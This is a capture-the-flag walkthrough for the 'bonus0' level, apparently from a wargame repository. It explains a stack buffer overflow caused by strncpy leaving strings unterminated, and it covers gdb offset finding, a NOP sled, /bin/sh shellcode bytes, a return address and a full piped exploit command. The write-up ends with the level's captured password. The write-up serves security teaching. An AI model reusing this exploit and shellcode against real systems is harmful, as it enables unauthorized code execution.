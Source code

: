 # Bonus0

This walkthrough explains the `bonus0` → `bonus1` exploitation, step by step, with detailed explanations for every concept.

---

## 1. Program behavior

Running `./bonus0` asks for two inputs, separated by a space.  
The program concatenates them and prints the result:

```bash
$ ./bonus0
 -
Hey
 -
lesfi
Hey lesfi
```

---

## 2. Functions overview

Using `info functions` in gdb, we see three key functions:

- `main()`  
- `pp()`  
- `p()`  

Disassembly reveals:

- `main()` → calls `pp()`, then prints the buffer with `puts()`.
- `pp()` → calls `p()` twice (to read both inputs a and b), then concatenates them into the buffer.
- `p()` → reads up to 4096 characters into a large buffer (without always ensuring null termination) and then uses `strncpy()` to copy at most 20 chars into smaller buffers.

---

## 3. Vulnerability explanation

- The `p()` function reads into a **4096‑byte local buffer**.
- Then it copies **up to 20 bytes** into another buffer via `strncpy()`.
- If the source string is **20 bytes or longer**, the **\n is not replaced by \0**.
- The result: when both inputs are merged, the buffer can grow larger than expected.

If `arg1` is exactly 20 bytes (no `\0`), the concatenation can keep going. 
But because of how the program reuses buffers and concatenates again, the real size can reach **61 bytes** before hitting the vulnerable buffer of size **42 bytes**.
This leads to:

```
20 (arg1) + 1 (space) + up to 20 (arg2) = 41 bytes
but there's another user of strcat adding 20 bytes :
20 + 20 + 1 + 20 = 61 bytes
```
---

## 4. Finding the offset

To know where `EIP` is overwritten, we use a pattern:

```bash
$ ./bonus0
 -
01234567890123456789
 -
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9...
```

Result in gdb:

```
EIP = 0x41336141
```

This corresponds to offset **9** inside the second argument.

---

## 5. Buffer address

In gdb, setting a breakpoint inside `p()`:

```gdb
b *p+28
run
x $ebp-0x1008
```

This shows the start of the large buffer, for example:

```
0xbfffe680
```

This is where our payload (NOPs + shellcode) will land.

---

## 6. NOP sled

- `NOP` = “No Operation” (`\x90` in x86).  
- Executing it does nothing; CPU just moves to the next instruction.  
- We use a **NOP sled** = a sequence of many NOPs before our shellcode.  

Why? Because if we jump *anywhere* inside the sled, execution will “slide” until it reaches the shellcode.  
This makes our jump address much more forgiving.

---

## 7. Shellcode

The shellcode used is:

```python
"\x31\xc0\x50\x68\x2f\x2f\x73\x68" +
"\x68\x2f\x62\x69\x6e\x89\xe3\x89" +
"\xc1\x89\xc2\xb0\x0b\xcd\x80\x31" +
"\xc0\x40\xcd\x80"
```

It does two things:

1. Spawn a shell (`/bin/sh`)  
2. Exit cleanly

In practice we prepend it with 100+ NOPs:

```bash
python -c 'print "\x90"*100 + "<shellcode>"'
```

---

## 8. Choosing the return address

We want `EIP` to point somewhere inside the NOP sled.  
Buffer start: `0xbfffe680`  
Offset start after args: +61  
So we can safely jump to around: `0xbfffe6d0`

---

## 9. Exploit construction

- **First argument** = NOP sled + shellcode  
- **Second argument** = padding to reach offset 9 + return address + filler

Example:

```bash
# First arg
python -c 'print "\x90"*100 + "<shellcode>"'

# Second arg
python -c 'print "A"*9 + "\xd0\xe6\xff\xbf" + "B"*7'
```

---

## 10. Final exploit

```bash
(python -c 'print "\x90"*100 + "<shellcode>"';  python -c 'print "A"*9 + "\xd0\xe6\xff\xbf" + "B"*7';  cat) | ./bonus0
```

Result:

```
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

---
